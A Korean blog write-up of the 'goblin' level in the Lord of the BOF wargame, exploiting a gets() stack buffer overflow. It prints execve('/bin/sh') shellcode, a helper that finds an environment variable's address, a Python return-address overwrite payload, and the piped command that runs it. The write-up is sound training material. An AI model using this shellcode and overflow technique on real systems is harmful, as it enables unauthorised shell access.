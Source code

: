 ```yaml
---
title: "[LOB]Level03. goblin"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180828
modify_date: 2019-10-07
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png

---
```


[+ stdin](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```



------

### 0x01. Static Analysis

16byte크기의  buffer배열을 선언하고 gets함수를 이용하여 buffer에 값을 입력받아 저장한다.

cobolt 문제와 다른점은 cobolt에서는 main함수의 argv로 사용자에게 입력값을 받았다면, 이 문제는 gets를 이용하여 사용자에게 입력값을 받는다.

따라서 값을 넘겨주는 방식의 차이만 있을 뿐 앞 문제와 풀이 과정은 동일하다.

gets를 이용하여 사용자가 입력한 값을 buffer배열로 복사할때 복사되는 크기가 정해져있지 않아 BoF(Buffer OverFlow) 취약점이 존재한다.
{:.info}

------

### 0x02. Dynamic Analysis

buffer배열의 크기가 16Byte로 Shellcode보다 크기가 작으므로 환경변수를 이용하여 풀이한다.

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135809460.png" width="800px">

EUNICE 환경변수에 Shellcode를 넣는다.



```c
//env.c
main(){
    printf("%08x\n", getenv("EUNICE") );
}
```

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135852712.png" width="400px">

EUNICE 환경변수의 주소를 구하는 프로그램을 만들어 EUNICE환경변수의 주소를 구해온다. (0xbffffc33)

-----

### 0x03. Exploit

여기서 한번 생각해야 할 점은, Cobolt문제는 프로그램의 인자값으로 값을 넘겨주기 때문에 프로그램을 실행할때 프로그램 이름 뒤에 인자로 Payload를 넘겨주면됐다.

하지만 이번 문제는 프로그램 내부에서 입력값을 받기 때문에 같은 방법으로는 Payload를 넘겨줄 수 없다.

따라서 Pipe('|')를 사용해야 한다. (Pipe명령어는 왼쪽 **표준출력**을 오른쪽에 **표준입력**으로 넘겨주는 역할을 한다.)

표준입력으로 넘겨주어야 하기 때문에 `cat` 와 `;`명령어를 함께 사용해야 한다. (FTZ 12번 문제를 풀었다면 쉽게 이해할 수 있을 것이다.)

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135928174.png" width="700px">

> Cobolt문제와 풀이방법이 동일하므로 상세설명은 생략했다.

-----

### 0x04. 정리

Cobolt 문제에서 BoF 취약점이 존재했던 strcpy함수 외에도 gets함수도 입력값 크기 검증이 없기때문에 동일하게 BoF 취약점이 존재하는 것을 확인할 수 있는 문제였다.

그리고 프로그램 내부에서 사용자 입력값을 받을 때 어떻게 입력값을 넘겨주어야 하는지도 알게되는 문제였다.

-----

```python
#ex.py
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/cobolt/goblin"

shellcode_env_addr = 0xbffffc33

payload = "\x90"*20
payload = append(p32(shellcode_env_addr))

print payload
```

```
(python ex.py;cat)|./goblin
```

-----

